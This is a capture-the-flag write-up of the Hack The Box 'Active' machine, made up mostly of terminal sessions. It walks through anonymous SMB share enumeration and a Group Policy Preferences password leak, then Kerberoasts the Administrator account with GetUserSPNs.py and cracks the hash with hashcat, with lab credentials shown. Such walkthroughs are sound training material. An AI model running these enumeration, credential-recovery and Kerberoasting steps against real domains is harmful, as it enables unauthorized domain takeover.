

# Active (HTB) - Walkthrough

## SMB Enumeration Nuances

### Anonymous vs Empty String

**Authentication vs. Anonymous**: An empty string triggers a full "Session Setup" request where the server checks for a user account with a blank password. Since Windows 10/Server 2016, "Insecure Guest Logons" are disabled by default.

**Null Session Logic**: A true Null Session (no username, no password) doesn't try to log in as a user at all. It attempts to connect to the IPC$ share anonymously to gather info. If the server's "RestrictAnonymous" policy is set to 1 or 2, it will block this even if the ports are open.

---

## Initial Enumeration

### NetExec SMB Connection

```
jbrown@Jabaris-MacBook-Pro active % nxc smb 10.129.5.64 -u '' -p ''               
SMB         10.129.5.64     445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.5.64     445    DC               [+] active.htb\: 
jbrown@Jabaris-MacBook-Pro active % 
```

### Share Enumeration

```
jbrown@Jabaris-MacBook-Pro active % nxc smb 10.129.5.64 -u '' -p '' --shares
SMB         10.129.5.64     445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.5.64     445    DC               [+] active.htb\: 
SMB         10.129.5.64     445    DC               [*] Enumerated shares
SMB         10.129.5.64     445    DC               Share           Permissions     Remark
SMB         10.129.5.64     445    DC               -----           -----------     ------
SMB         10.129.5.64     445    DC               ADMIN$                          Remote Admin
SMB         10.129.5.64     445    DC               C$                              Default share
SMB         10.129.5.64     445    DC               IPC$                            Remote IPC
SMB         10.129.5.64     445    DC               NETLOGON                        Logon server share 
SMB         10.129.5.64     445    DC               Replication     READ            
SMB         10.129.5.64     445    DC               SYSVOL                          Logon server share 
SMB         10.129.5.64     445    DC               Users                           
```

### Spider Plus Module

```
jbrown@Jabaris-MacBook-Pro active % nxc smb 10.129.5.64 -u '' -p '' --shares -M spider_plus
SMB         10.129.5.64     445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.5.64     445    DC               [+] active.htb\: 
SPIDER_PLUS 10.129.5.64     445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.129.5.64     445    DC               [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.129.5.64     445    DC               [*]     STATS_FLAG: True
SPIDER_PLUS 10.129.5.64     445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.129.5.64     445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.129.5.64     445    DC               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.129.5.64     445    DC               [*]  OUTPUT_FOLDER: /Users/jbrown/.nxc/modules/nxc_spider_plus
SMB         10.129.5.64     445    DC               [*] Enumerated shares
SMB         10.129.5.64     445    DC               Share           Permissions     Remark
SMB         10.129.5.64     445    DC               -----           -----------     ------
SMB         10.129.5.64     445    DC               ADMIN$                          Remote Admin
SMB         10.129.5.64     445    DC               C$                              Default share
SMB         10.129.5.64     445    DC               IPC$                            Remote IPC
SMB         10.129.5.64     445    DC               NETLOGON                        Logon server share 
SMB         10.129.5.64     445    DC               Replication     READ            
SMB         10.129.5.64     445    DC               SYSVOL                          Logon server share 
SMB         10.129.5.64     445    DC               Users                           
SPIDER_PLUS 10.129.5.64     445    DC               [+] Saved share-file metadata to "/Users/jbrown/.nxc/modules/nxc_spider_plus/10.129.5.64.json".
SPIDER_PLUS 10.129.5.64     445    DC               [*] SMB Shares:           7 (ADMIN$, C$, IPC$, NETLOGON, Replication, SYSVOL, Users)
SPIDER_PLUS 10.129.5.64     445    DC               [*] SMB Readable Shares:  1 (Replication)
SPIDER_PLUS 10.129.5.64     445    DC               [*] Total folders found:  22
SPIDER_PLUS 10.129.5.64     445    DC               [*] Total files found:    7
SPIDER_PLUS 10.129.5.64     445    DC               [*] File size average:    1.16 KB
SPIDER_PLUS 10.129.5.64     445    DC               [*] File size min:        22 B
SPIDER_PLUS 10.129.5.64     445    DC               [*] File size max:        3.63 KB
```

### Replication Share Metadata

```
jbrown@Jabaris-MacBook-Pro active % cat ~/.nxc/modules/nxc_spider_plus/10.129.5.64.json 
{
    "Replication": {
        "active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI": {
            "atime_epoch": "2018-07-21 06:37:44",
            "ctime_epoch": "2018-07-21 06:37:44",
            "mtime_epoch": "2018-07-21 06:38:11",
            "size": "23 B"
        },
        "active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI": {
            "atime_epoch": "2018-07-21 06:37:44",
            "ctime_epoch": "2018-07-21 06:37:44",
            "mtime_epoch": "2018-07-21 06:38:11",
            "size": "119 B"
        },
        "active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf": {
            "atime_epoch": "2018-07-21 06:37:44",
            "ctime_epoch": "2018-07-21 06:37:44",
            "mtime_epoch": "2018-07-21 06:38:11",
            "size": "1.07 KB"
        },
        "active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml": {
            "atime_epoch": "2018-07-21 06:37:44",
            "ctime_epoch": "2018-07-21 06:37:44",
            "mtime_epoch": "2018-07-21 06:38:11",
            "size": "533 B"
        },
        "active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol": {
            "atime_epoch": "2018-07-21 06:37:44",
            "ctime_epoch": "2018-07-21 06:37:44",
            "mtime_epoch": "2018-07-21 06:38:11",
            "size": "2.72 KB"
        },
        "active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI": {
            "atime_epoch": "2018-07-21 06:37:44",
            "ctime_epoch": "2018-07-21 06:37:44",
            "mtime_epoch": "2018-07-21 06:38:11",
            "size": "22 B"
        },
        "active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf": {
            "atime_epoch": "2018-07-21 06:37:44",
            "ctime_epoch": "2018-07-21 06:37:44",
            "mtime_epoch": "2018-07-21 06:38:11",
            "size": "3.63 KB"
        }
    }
}%
```

---

## SMB Client Navigation

### Null Pass Authentication

```
jbrown@Jabaris-MacBook-Pro examples % python3 smbclient.py  -target-ip 10.129.5.64 -no-pass target
Impacket v0.14.0.dev0+20260219.104542.8728bbcf - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use Replication
# 
```

### Replication Share Browsing

```
jbrown@Jabaris-MacBook-Pro examples % python3 smbclient.py  -target-ip 10.129.5.64 -no-pass target
Impacket v0.14.0.dev0+20260219.104542.8728bbcf - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use Replication
# dir
*** Unknown syntax: dir
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 active.htb
# cd active.htb
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 DfsrPrivate
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Policies
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 scripts
# scripts
*** Unknown syntax: scripts
# cd scripts
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
# cd ..
# cd Policies
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 {31B2F340-016D-11D2-945F-00C04FB984F9}
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 {6AC1786C-016F-11D2-945F-00C04fB984F9}
# cd {31B2F340-016D-11D2-945F-00C04FB984F9}
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
-rw-rw-rw-         23  Sat Jul 21 06:38:11 2018 GPT.INI
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Group Policy
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 MACHINE
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 USER
# cd USER
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
# cd ..
# cd  MACHINE
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Microsoft
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Preferences
-rw-rw-rw-       2788  Sat Jul 21 06:38:11 2018 Registry.pol
# get Registry.pol
# cd Preferences
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Groups
# cd Groups
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
-rw-rw-rw-        533  Sat Jul 21 06:38:11 2018 Groups.xml
# get Groups.xml
# cd ..
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Groups
# cd ..
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Microsoft
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Preferences
-rw-rw-rw-       2788  Sat Jul 21 06:38:11 2018 Registry.pol
# cd Microsoft
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Windows NT
# cd Windows/ NT
[-] SMB SessionError: code: 0xc000003a - STATUS_OBJECT_PATH_NOT_FOUND - {Path Not Found} The path %hs does not exist.
# cd Windows NT
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 SecEdit
# cd SecEdit
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
-rw-rw-rw-       1098  Sat Jul 21 06:38:11 2018 GptTmpl.inf
# get GptTmpl.inf
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
-rw-rw-rw-       1098  Sat Jul 21 06:38:11 2018 GptTmpl.inf
# cd ..
cd# cd ..
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Windows NT
# cd ..
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Microsoft
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Preferences
-rw-rw-rw-       2788  Sat Jul 21 06:38:11 2018 Registry.pol
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 {31B2F340-016D-11D2-945F-00C04FB984F9}
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 {6AC1786C-016F-11D2-945F-00C04fB984F9}
# cd   {6AC1786C-016F-11D2-945F-00C04fB984F9}
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
-rw-rw-rw-         22  Sat Jul 21 06:38:11 2018 GPT.INI
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 MACHINE
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 USER
# get GPT.INI
# cd Machine
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Microsoft
# cd Microsoft
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Windows NT
# cd Windows NT
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 SecEdit
# cd SecEdit 
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
-rw-rw-rw-       3627  Sat Jul 21 06:38:11 2018 GptTmpl.inf
# get GptTmpl.inf
```

---

## Group Policy Preferences (GPP) Vulnerability



### The Flaw

The Flaw: GPP used a single, static AES key for all Windows domains, which was published on MSDN.

Accessibility: The Groups.xml file containing the cpassword attribute is stored in the SYSVOL share, which is readable by any authenticated domain user.

Impact: Attackers can use tools like Metasploit, gpp-decrypt, or PowerShell scripts (Get-GPPPassword) to retrieve and decrypt credentials, often resulting in full domain compromise.

Scope: This vulnerability affects local admin accounts, domain service accounts, and scheduled tasks. 

**GitHub**
GitHub
 +6

---

## LDAP Enumeration with PowerView

```
powerview active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.129.5.64
```

### Get-DomainUser Output

```
jbrown@Jabaris-MacBook-Pro Certipy % powerview active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.129.5.64
Logging directory is set to /Users/jbrown/.powerview/logs/active
╭─LDAP─[DC.active.htb]─[ACTIVE\SVC_TGS]-[NS:10.129.5.64]
╰─ ❯ Get-DomainUser
objectClass                       : top
                                    person
                                    organizationalPerson
                                    user
cn                                : SVC_TGS
distinguishedName                 : CN=SVC_TGS,CN=Users,DC=active,DC=htb
name                              : SVC_TGS
objectGUID                        : {8c9d3235-1d0a-4db1-99ee-3f783d1a9bd6}
userAccountControl                : NORMAL_ACCOUNT
                                    DONT_EXPIRE_PASSWORD
badPwdCount                       : 0
badPasswordTime                   : [REDACTED:password] 18:47:35 (today)
lastLogoff                        : 1601-01-01 00:00:00+00:00
lastLogon                         : 12/03/2026 18:48:17 (today)
pwdLastSet                        : 18/07/2018 20:14:38 (7 years, 7 months ago)
primaryGroupID                    : 513
objectSid                         : S-1-5-21-405608879-3187717380-1996298813-1103
sAMAccountName                    : SVC_TGS
sAMAccountType                    : SAM_USER_OBJECT
userPrincipalName                 : SVC_TGS@active.htb
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=active,DC=htb
lastLogonTimestamp                : 12/03/2026 18:48:17 (today)
vulnerabilities                   : [VULN-002] User account with password that never expires (LOW)

objectClass                       : top
                                    person
                                    organizationalPerson
                                    user
cn                                : krbtgt
description                       : Key Distribution Center Service Account
distinguishedName                 : CN=krbtgt,CN=Users,DC=active,DC=htb
memberOf                          : CN=Denied RODC Password Replication Group,CN=Users,DC=active,DC=htb
name                              : krbtgt
objectGUID                        : {43d7a1e7-a5a6-49ab-82d0-e24e7472f88d}
userAccountControl                : ACCOUNTDISABLE
                                    NORMAL_ACCOUNT
badPwdCount                       : 0
badPasswordTime                   : [REDACTED:password] 00:00:00 (425 years, 2 months ago)
lastLogoff                        : 1601-01-01 00:00:00+00:00
lastLogon                         : 01/01/1601 00:00:00 (425 years, 2 months ago)
pwdLastSet                        : 18/07/2018 18:50:36 (7 years, 7 months ago)
primaryGroupID                    : 513
objectSid                         : S-1-5-21-405608879-3187717380-1996298813-502
adminCount                        : 1
sAMAccountName                    : krbtgt
sAMAccountType                    : SAM_USER_OBJECT
servicePrincipalName              : kadmin/changepw
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=active,DC=htb

objectClass                       : top
                                    person
                                    organizationalPerson
                                    user
cn                                : Guest
description                       : Built-in account for guest access to the computer/domain
distinguishedName                 : CN=Guest,CN=Users,DC=active,DC=htb
memberOf                          : CN=Guests,CN=Builtin,DC=active,DC=htb
name                              : Guest
objectGUID                        : {128734a9-ff0e-4f5c-8c95-a14738a11801}
userAccountControl                : ACCOUNTDISABLE
                                    PASSWD_NOTREQD
                                    NORMAL_ACCOUNT
                                    DONT_EXPIRE_PASSWORD
badPwdCount                       : 0
badPasswordTime                   : [REDACTED:password] 00:00:00 (425 years, 2 months ago)
lastLogoff                        : 1601-01-01 00:00:00+00:00
lastLogon                         : 01/01/1601 00:00:00 (425 years, 2 months ago)
pwdLastSet                        : 01/01/1601 00:00:00 (425 years, 2 months ago)
primaryGroupID                    : 514
objectSid                         : S-1-5-21-405608879-3187717380-1996298813-501
sAMAccountName                    : Guest
sAMAccountType                    : SAM_USER_OBJECT
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=active,DC=htb

objectClass                       : top
                                    person
                                    organizationalPerson
                                    user
cn                                : Administrator
description                       : Built-in account for administering the computer/domain
distinguishedName                 : CN=Administrator,CN=Users,DC=active,DC=htb
memberOf                          : CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb
                                    CN=Domain Admins,CN=Users,DC=active,DC=htb
                                    CN=Enterprise Admins,CN=Users,DC=active,DC=htb
                                    CN=Schema Admins,CN=Users,DC=active,DC=htb
                                    CN=Administrators,CN=Builtin,DC=active,DC=htb
name                              : Administrator
objectGUID                        : {25ca718e-7312-467f-955a-4c4f10963c1e}
userAccountControl                : NORMAL_ACCOUNT
                                    DONT_EXPIRE_PASSWORD
badPwdCount                       : 0
badPasswordTime                   : [REDACTED:password] 17:17:35 (7 years, 7 months ago)
lastLogoff                        : 1601-01-01 00:00:00+00:00
lastLogon                         : 12/03/2026 11:25:43 (today)
pwdLastSet                        : 18/07/2018 19:06:40 (7 years, 7 months ago)
primaryGroupID                    : 513
objectSid                         : S-1-5-21-405608879-3187717380-1996298813-500
adminCount                        : 1
sAMAccountName                    : Administrator
sAMAccountType                    : SAM_USER_OBJECT
servicePrincipalName              : active/CIFS:445
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=active,DC=htb
lastLogonTimestamp                : 12/03/2026 11:24:52 (today)
vulnerabilities                   : [VULN-001] Kerberoastable high privilege account (MEDIUM)
                                    [VULN-002] User account with password that never expires (LOW)
                                    [VULN-020] Admin account with delegation enabled (HIGH)

╭─LDAP─[DC.active.htb]─[ACTIVE\SVC_TGS]-[NS:10.129.5.64]
╰─ ❯ 
```

### Review the SPN

```
servicePrincipalName              : active/CIFS:445
```

In an Active Directory environment, Kerberoasting works because any authenticated user can request a service ticket (TGS) for any account that has an SPN set

### Why this specific account is a "Gold Mine"

Normally, SPNs are tied to low-privilege service accounts (like a SQL service). However, this output shows the Administrator account has an SPN. Because this account is a member of Domain Admins and Enterprise Admins, cracking this one ticket gives you full control over the entire domain

---

## Service Principal Names (SPNs) Reference

Service Principal Names (SPNs) are unique identifiers in Active Directory (AD) that link a specific service instance to a service logon account. They allow clients to request authenticated sessions with services; therefore, each SPN must be unique within the AD forest to ensure proper authentication.

SPNs consist of two main components:

Service Class: Specifies the type of service, such as HTTP for web services, LDAP for directory services, or MSSQLSvc for Microsoft SQL Server.
Host Name: Identifies the server where the service is hosted.

Here are some examples for SPNs:

HTTP/webserver.domain.com: Represents an HTTP service on a server named "webserver.domain.com".
MSSQLSvc/servername.domain.com:1433: Indicates a Microsoft SQL Server instance on "servername.domain.com" using the default port 1433.

https://www.picussecurity.com/resource/blog/kerberoasting-attack-explained-mitre-attack-t1558.003#:~:text=Step%201:%20Domain%20Authentication,a%20prerequisite%20for%20the%20attack.

---

## Finding Kerberoastable Accounts

### Using Built-in Binary

Using a builtin binary can find kerberoastable accounts:
For instance, the following is a built-in binary, focusing on user accounts. With such a simple executable, it is possible to identify all kerberoastable accounts in the domain.

```
setspn.exe -Q */* 
```

While commercial tools can be quite noisy, this built-in tool quickly retrieves kerberoastable user accounts without much noise.

### Using GetUserSPNs.py (Impacket)

```
python3 GetUserSPNs.py <Domain>/<User>:<Password> [REDACTED:password] <DC_IP> -request
```

https://www.blackhillsinfosec.com/impacket-cheatsheet/#:~:text=Kerberoasting,the%20following%20using%20the%20TGT.

---

## Kerberoasting Attack

```
jbrown@Jabaris-MacBook-Pro examples % python3 GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.5.64 -request 
Impacket v0.14.0.dev0+20260219.104542.8728bbcf - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2026-03-12 07:25:43.945762             


[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$efc61854f043150d962fac56d17ef9e4$ecd203c73bea10c35e5d04764024506e7bfc81f9e98c5588d2193972afa2cff88b927afeac4a1ff88a661b2d7f687bd0fd59b362088d540e2ee78f619cc234d508256e91afdc9fd86f03bbc3dffc3560bbb4e4e1cf9e409cfe94303b02b9bd2739c25105514e0f47cb20af8bc6b208d0cf5adc8c80494e67f2301429ef976bcda228e6ac6ff39d5cb4b35618f7d2f6b4293794898ff4b842cf2563a761cbb8594d6f0eab85087752b5a262838379d9b451db3cec77813c30cfd10a941398f51d6e04645a45d57ab59b22565def2868d96c02c676b0089453a4222d708d0d01a6189b07c7d4c000020b9088830ed6aa00e8cc84c35ecb367ab472ede020993ac39c423668b9aadddbcbb5af3982f9d34dbac0339b6dc6ed8e13951b78ad6eeb20edb87571eb4e54b247324d29aa14d97c0f8df510ac4f33a36a839703bdcd88c693245976967c2db19ca841d25dacdd3fd30a7365e40e5cd2679379ef7cc27cb16abd2feee8e439d750cb959a663ab1392585e4671b06a1600bf5645fccbd7ae1cce9eaa0c677d3979fcf4d7330de8e59a91155ad29666bec28b00feafdb7fca5623c5b3e68919e31784efa0a19d76a151ca1078d0a675fd7f26ebe5de2acdddc092250fb2b8f96c9fa597d9e519622eab0e8e2617a0d5e83ec64aabd5c3dae024dc3b0da6360811bfd015b6efe5cda8646a07a1a3249e27800592abc0adc7883eaab170aa3d96fab433b7c7d10d71edce1f9b5eee19ff0d5cc8053ed1547b40a3c2322481c4156bbd9079c003b4abe4c11092ab3c8a3c83b8bb70b7e145e629b00f83769e590c0b65bdf9d58017ad637470e89d977ae85836c65bb0e71643bbc01ee2c77d8e47d14dd5ef24b376d25a084321d7c031964e415e45605d517f187715a3fa582543acc54149ca93b5667846f191a19d4a23f6a5bda5e9bb04942d95c26ce9cef6ae9258419657a412ebd560231d27e19833d39e46038611575349816453830c258245ea22fdcaa36b4fc30e525fe89474832b7c3277b902ed5558259837c0dedc2416976386af9adf914f1e42433b4430907ec7e92f2b8f869d3289c53859099a24ed46271917f6ff7030e1fdf44c19b45d3115735e3c15d57b9547547d9aabe44deb9dcf545ed24b54fb08b19d284f79969b920c9296b539aae4ba80750feef96ee717ccfe9396ee48cdf92ba835a128b7df20f313321a3743070f1720e215af94408c87b9d3f8c13ee9c3830bd80e13a8bc24050
jbrown@Jabaris-MacBook-Pro examples % 
```

---

## Hash Cracking with Hashcat

```
jbrown@Jabaris-MacBook-Pro hashcat % ./hashcat -m 13100 ../../active/hash.txt ../../wordlist/rockyou.txt 
hashcat (v7.1.2-382-g2d71af371) starting

METAL API (Metal 368.52)
========================
* Device #01: Apple M2, skipped

OpenCL API (OpenCL 1.2 (Jul 20 2025 19:29:12)) - Platform #1 [Apple]
====================================================================
* Device #02: Apple M2, GPU, 2730/5461 MB (512 MB allocatable), 10MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 100c

Host memory allocated for this attack: 599 MB (1115 MB free)

Dictionary cache hit:
* Filename..: ../../wordlist/rockyou.txt
* Passwords.: [REDACTED:password]
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$efc61854f043150d962fac56d17ef9e4$ecd203c73bea10c35e5d04764024506e7bfc81f9e98c5588d2193972afa2cff88b927afeac4a1ff88a661b2d7f687bd0fd59b362088d540e2ee78f619cc234d508256e91afdc9fd86f03bbc3dffc3560bbb4e4e1cf9e409cfe94303b02b9bd2739c25105514e0f47cb20af8bc6b208d0cf5adc8c80494e67f2301429ef976bcda228e6ac6ff39d5cb4b35618f7d2f6b4293794898ff4b842cf2563a761cbb8594d6f0eab85087752b5a262838379d9b451db3cec77813c30cfd10a941398f51d6e04645a45d57ab59b22565def2868d96c02c676b0089453a4222d708d0d01a6189b07c7d4c000020b9088830ed6aa00e8cc84c35ecb367ab472ede020993ac39c423668b9aadddbcbb5af3982f9d34dbac0339b6dc6ed8e13951b78ad6eeb20edb87571eb4e54b247324d29aa14d97c0f8df510ac4f33a36a839703bdcd88c693245976967c2db19ca841d25dacdd3fd30a7365e40e5cd2679379ef7cc27cb16abd2feee8e439d750cb959a663ab1392585e4671b06a1600bf5645fccbd7ae1cce9eaa0c677d3979fcf4d7330de8e59a91155ad29666bec28b00feafdb7fca5623c5b3e68919e31784efa0a19d76a151ca1078d0a675fd7f26ebe5de2acdddc092250fb2b8f96c9fa597d9e519622eab0e8e2617a0d5e83ec64aabd5c3dae024dc3b0da6360811bfd015b6efe5cda8646a07a1a3249e27800592abc0adc7883eaab170aa3d96fab433b7c7d10d71edce1f9b5eee19ff0d5cc8053ed1547b40a3c2322481c4156bbd9079c003b4abe4c11092ab3c8a3c83b8bb70b7e145e629b00f83769e590c0b65bdf9d58017ad637470e89d977ae85836c65bb0e71643bbc01ee2c77d8e47d14dd5ef24b376d25a084321d7c031964e415e45605d517f187715a3fa582543acc54149ca93b5667846f191a19d4a23f6a5bda5e9bb04942d95c26ce9cef6ae9258419657a412ebd560231d27e19833d39e46038611575349816453830c258245ea22fdcaa36b4fc30e525fe89474832b7c3277b902ed5558259837c0dedc2416976386af9adf914f1e42433b4430907ec7e92f2b8f869d3289c53859099a24ed46271917f6ff7030e1fdf44c19b45d3115735e3c15d57b9547547d9aabe44deb9dcf545ed24b54fb08b19d284f79969b920c9296b539aae4ba80750feef96ee717ccfe9396ee48cdf92ba835a128b7df20f313321a3743070f1720e215af94408c87b9d3f8c13ee9c3830bd80e13a8bc24050:Ticketmaster1968
                                                           
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Ad...c24050
Time.Started.....: Thu Mar 12 18:28:04 2026 (1 sec)
Time.Estimated...: Thu Mar 12 18:28:05 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (../../wordlist/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#02........:  8375.7 kH/s (0.59ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10813440/14344384 (75.38%)
Rejected.........: 0/10813440 (0.00%)
Restore.Point....: 10485760/14344384 (73.10%)
Restore.Sub.#02..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#02...: XiaoLing.1215 -> Ms.Jordan
Hardware.Mon.SMC.: Fan0: 16%
Hardware.Mon.#02.: Util: 84% Pwr:213mW

Started: Thu Mar 12 18:27:57 2026
Stopped: Thu Mar 12 18:28:06 2026
jbrown@Jabaris-MacBook-Pro hashcat % 
```

